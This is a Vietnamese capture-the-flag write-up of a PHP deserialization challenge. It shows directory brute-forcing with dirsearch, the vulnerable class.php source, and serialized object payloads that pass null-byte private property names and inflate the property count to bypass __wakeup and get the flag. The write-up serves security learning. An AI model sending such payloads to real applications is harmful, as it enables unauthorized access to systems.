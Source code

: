 # [极客大挑战 2019]PHP

[Link](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]PHP)

Đầu tiên, khi mình boot instance và truy cập vào challenge, mình cảm thấy rất bất ngờ với giao diện của trang web. Mình nghĩ rằng author đã làm việc rất chăm chỉ.
![1](https://user-images.githubusercontent.com/95614411/173055220-97ee6bb8-4e31-43d2-bb53-170f542d6917.PNG)

Vì author đã gợi ý là họ thường xuyên sao lưu dữ liệu trang web, nhưng vì mình không tìm được manh mối nào khi đọc source HTML, nên mình quyết định dùng Dirsearch để tìm.

`python3 dirsearch.py -u http://089e324c-b9d5-4267-a1b6-5a5e6c644bdf.node4.buuoj.cn:81/ -e php`

Và mình phát hiện ra được một link thú vị, có thể down về source code của web.

![2](https://user-images.githubusercontent.com/95614411/173055306-2f4b161c-b5c0-40cb-9f2c-c816f5e6cc13.PNG)

![3](https://user-images.githubusercontent.com/95614411/173055353-f97a15fe-66ad-42f5-a8c4-4d1105c84a4d.PNG)


ở file class.php:
```
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

điều đầu tiên mình đập vào mắt mình là: 


![image](https://user-images.githubusercontent.com/95614411/173054943-b8052b7b-d389-4068-97a6-79a2ea9686bb.png)

Ở đây, mình xác nhận được, để nhận được flag thì mình phải đăng nhập vào được quyền admin với:
> Username: admin
> 
> Password: 100

Và bây giờ, mình đối mặt với 2 vấn đề: 
- Làm sao để đưa lên server username và password?
- làm sao để đưa vào khi username, password đều nằm trong 1 class?

Mình tiếp tục mở file index.php lên và thấy:

![image](https://user-images.githubusercontent.com/95614411/173056586-1a476fa6-46bc-4c6a-b0c3-0b1fbf2ad4b9.png)

Vậy là mình có thể đưa vào với query string `?select=`

Kế tiếp, mình nhớ là đã xem trên kênh Cyber Jutsu về ý tưởng đưa một ojbect qua query string, nhưng và mình phải tìm cách vượt qua function __wakeup() 

![image](https://user-images.githubusercontent.com/95614411/173057145-80e07ba6-e84e-4554-92ce-41ba85f27968.png)

Mình đã biến tấu một chút ở code và dùng hàm `serialize()` để xem mã hóa của code khi mình tạo một object như bên dưới:

![image](https://user-images.githubusercontent.com/95614411/173057544-d4b9face-7546-4dea-8510-82ac60d0e8aa.png)

Và khi chạy trên localhost thì mình được:

![image](https://user-images.githubusercontent.com/95614411/173057621-60728caf-572a-4881-8841-240793d9a3ba.png)


Payload ban đầu của mình: 
`?select="O:4:"Name":2:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}"
- ở đây, vì hai biến `username` và `password` mang thuộc tính private, nên mình dùng `%00` điền vào trước chuỗi để khi truy xuất vào được đầy đủ.
 
Và để vượt qua function `__wakeup()` thì mình đã payload một chút:
`?select="O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}"

Và kết quả:

![image](https://user-images.githubusercontent.com/95614411/173059398-29fc5a8e-43c9-47a6-be28-35ce755c04a5.png)







